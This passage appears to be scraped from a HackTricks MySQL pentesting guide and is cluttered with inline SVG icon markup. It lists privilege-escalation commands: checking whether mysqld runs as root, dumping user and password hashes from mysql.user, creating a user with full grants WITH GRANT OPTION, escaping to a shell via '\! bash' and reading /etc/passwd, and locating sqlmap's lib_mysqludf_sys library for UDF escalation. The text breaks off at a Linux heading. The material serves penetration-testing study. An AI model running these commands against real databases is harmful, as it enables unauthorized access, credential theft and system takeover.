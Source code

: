 It will be very interesting if mysql is running as **root**:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2351'%3e%3cg data-evernote-id='2352' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2353' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2354' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

cat /etc/mysql/mysql.conf.d/mysqld.cnf |  grep -v "#"  |  grep  "user"

##

Privilege escalation[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2387'%3e%3cg data-evernote-id='2388' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2389' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2390' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/pentesting/pentesting-mysql#privilege-escalation)

How to:

- Current Level of access
    - mysql>`select user(); `
    - mysql>`select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()'; `
- Access passwords
    - mysql> `use mysql `
    - mysql> `select user,password from user; `
- Create a new user and grant him privileges
    - mysql>`create user test identified by 'test'; `
    - mysql> `grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION; `
- Break into a shell
    - mysql> `\! cat /etc/passwd `
    - mysql> `\! bash `

##

Privilege Escalation via library[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2495'%3e%3cg data-evernote-id='2496' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2497' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2498' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/pentesting/pentesting-mysql#privilege-escalation-via-library)

You can find **compiled versions **of this **libraries **in sqlmap: `locate lib_mysqludf_sys.so ` and `locate lib_mysqludf_sys.dll `Instead of `locate  `you can also use `whereis ` to search for this libraries inside the host.

###

Linux[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2528'%3e%3cg data-evernote-id='2529' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2530' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2531' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/pentesting/pentesting-mysql#linux)
